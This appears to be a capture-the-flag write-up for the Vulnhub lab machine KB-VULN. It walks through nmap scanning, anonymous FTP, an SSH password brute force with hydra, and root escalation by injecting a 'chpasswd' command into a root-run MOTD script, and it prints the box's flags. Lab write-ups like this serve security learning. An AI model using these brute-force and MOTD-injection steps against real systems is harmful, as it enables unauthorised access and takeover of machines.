 ```yaml
---
title: Vulnhub - KB-VULN
description: My writeup on KB-VULN box.
categories:
 - vulnhub
tags: vulnhub hydra ssh motd
---
```


![](https://www.creativefabrica.com/wp-content/uploads/2019/03/Monogram-KB-Logo-Design-by-Greenlines-Studios.jpg)

You can find the machine there > [KB-VULN](https://www.vulnhub.com/entry/kb-vuln-1,540/){:target="_blank"}

## Summary

This machine is an easy one, from source code enumeration we can detect a username and ssh brute force with it. After gaining a low-privilege shell we can exploit motd daemon and change root password. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.20
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 00:11 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00017s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:09:6B:FC (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.14 seconds
$ nmap -p 21,22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 00:11 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00039s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:84:46:ae:47:21:d1:73:7d:2f:0a:66:87:98:af:d3 (RSA)
|   256 af:79:86:77:00:59:3e:ee:cf:6e:bb:bc:cb:ad:96:cc (ECDSA)
|_  256 9d:4d:2a:a1:65:d4:f2:bd:5b:25:22:ec:bc:6f:66:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: OneSchool &mdash; Website by Colorlib
```

Let's start the enumeration on port 21 since we have to anonymous allowed, we can see a `.bash_history` file let's download it.

```
$ ftp $ip
Connected to 192.168.1.20.
220 (vsFTPd 3.0.3)
Name (192.168.1.20:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    2 1000     1000         4096 Aug 22 17:39 .
drwxrwxr-x    2 1000     1000         4096 Aug 22 17:39 ..
-rw-r--r--    1 0        0              54 Aug 22 17:39 .bash_history
226 Directory send OK.
ftp> get .bash_history
local: .bash_history remote: .bash_history
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .bash_history (54 bytes).
226 Transfer complete.
```

At the time is useless, maybe we can use it later.

```
$ cat .bash_history 
exit
ls
cd /etc/update-motd.d/
ls
nano 00-header
exit
```

## Shell as sysadmin

Let's move on, port 80 source code gives us a username probably system one because i can't find a way to use it on web.

```html
$ curl http://$ip/
<!DOCTYPE html>
<html lang="en">
<head>
<title>OneSchool &mdash; Website by Colorlib</title>
<meta charset="utf-8">

...data...

<!-- Username : sysadmin -->
```

Let's try to ssh brute force with it, using rockyou.txt. & here we go!

```
$ hydra -l sysadmin -P /usr/share/wordlists/rockyou.txt $ip ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-14 00:20:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.1.20:22/
[22][ssh] host: 192.168.1.20   login: sysadmin   password: password1
```

```
$ ssh sysadmin@$ip
sysadmin@192.168.1.20's password: 

sysadmin@kb-server:~$ whoami;id
sysadmin
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

## Shell as root

Before we found something interesting from FTP, the `/etc/update-motd.d/` & `00-header`. MOTD(Message Of The Day daemon) is the welcome message that show to a user upon the terminal login. Modifying the `/etc/motd` file you can change the welcome message. But for better configuration you can use the scripts located in the `/etc/update-motd.d` directory.

So we can add a command that change root password and the next time we login, the MOTD will execute it. (MOTD is running as root)

```
sysadmin@kb-server:/etc/update-motd.d$ echo "echo 'root:pwned' | sudo chpasswd" >> 00-header 
sysadmin@kb-server:/etc/update-motd.d$ cat 00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

echo "\n\t\t\tWELCOME TO THE KB-SERVER\n"
echo 'root:pwned' | sudo chpasswd
sysadmin@kb-server:/etc/update-motd.d$ exit
logout
Connection to 192.168.1.20 closed.
```

Now we can simply login and root password will change. :fire:

```
$ ssh sysadmin@$ip                                             
sysadmin@192.168.1.20's password: 

sysadmin@kb-server:~$ su - root
Password: 
root@kb-server:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read the flags.

```
root@kb-server:~# cat /home/sysadmin/user.txt 
48a365b4ce1e322a55ae9017f3daf0c0
root@kb-server:~# cat flag.txt 
1eedddf9fff436e6648b5e51cb0d2ec7
```

## For the readers

I think this box has a second privilege escalation way, based on LXD group. You can try it yourself. :wink:

Fun box, i enjoyed this privilege escalation a lot. :smile:
